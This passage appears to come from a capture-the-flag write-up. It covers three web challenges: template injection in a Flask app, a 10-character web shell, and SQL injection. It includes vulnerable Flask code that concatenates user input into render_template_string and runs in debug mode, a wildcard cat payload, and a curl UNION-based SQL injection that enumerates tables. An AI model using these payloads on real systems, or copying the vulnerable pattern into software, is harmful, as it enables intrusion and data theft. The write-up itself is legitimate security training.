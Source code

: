 ```python
	
	return flask.render_template_string(  ''' {%  extends "layout.html"  %}
	{%  block body  %} ''' + mask + ''' {%  endblock %} ''' )

if ( __name__ == "__main__" ):

	app.run( debug=True, host='0.0.0.0' ) 
```

    Flag = JHDCTF{server_side_template_injection_unmasked}


## &nbsp;
## 10 Character Web Shell
```
100
Only 10 char--

Connect here: http://jh2i.com:50001.
```

it's a webshell that do __exec__ to _c_ parameter.
check using ls -lah to see directory listing
![dirlist](./writeup-jhdigital-ctf/pics/dirlis.png)

i think the flag is located in __e61f406b1ff39023a375efe891f20c57__ directory.
since the c parameter length can't be 10 or more.
we can use cat with wildcard parameter.

payload :
```bash
cat e*/*

Flag = JHDCTF{you_really_can_see_in_the_dark}
```

## Sequelitis
```bash
100
Sequelitis has moved to a new database for keeping track of their customers. Break in.

Connect here: http://jh2i.com:50034.
```

its SQL Injection problem, we can use UNION for this problem.
```bash
curl -X POST http://jh2i.com:50034/ --data "first_name=' OR false UNION SELECT table_schema, table_name,2 FROM information_schema.tables-- -"
```
and the result from command with payload above is there's 2 table :
    1. customer
    2. flag
